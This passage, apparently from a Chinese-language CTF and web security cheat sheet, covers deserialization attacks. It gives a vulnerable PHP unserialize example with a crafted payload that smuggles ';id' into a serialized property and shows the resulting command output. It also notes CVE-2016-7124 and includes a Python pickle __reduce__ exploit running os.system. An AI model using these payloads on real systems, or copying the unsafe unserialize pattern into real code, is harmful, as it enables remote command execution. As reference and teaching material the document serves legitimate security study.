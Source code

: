 - Example 2 - Private

```php
    <?php

    class Kaibro {
        private $test = "ggininder";
        function __wakeup()
        {
            system("echo ".$this->test);
        }
    }

    $input = $_GET['str'];
    $kb = unserialize($input);

```

- Input: `.php?str=O:6:"Kaibro":1:{s:12:"%00Kaibro%00test";s:3:";id";}`

- Output: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

---

- CVE-2016-7124
    - 物件屬性個數大於真正的屬性個數，會略過__wakeup的執行
    - HITCON 2016 CTF

- 小特性
    - `O:+4:"test":1:{s:1:"a";s:3:"aaa";}`
    - `O:4:"test":1:{s:1:"a";s:3:"aaa";}`
    - 兩者結果相同

## Python Pickle

- `dumps()` 將物件序列化成字串
- `loads()` 將字串反序列化

Example:

a.py:

```python
import os
import cPickle
import sys
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('ls',))
    
shellcode = cPickle.dumps(Exploit())
print base64.b64encode(shellcode)
```
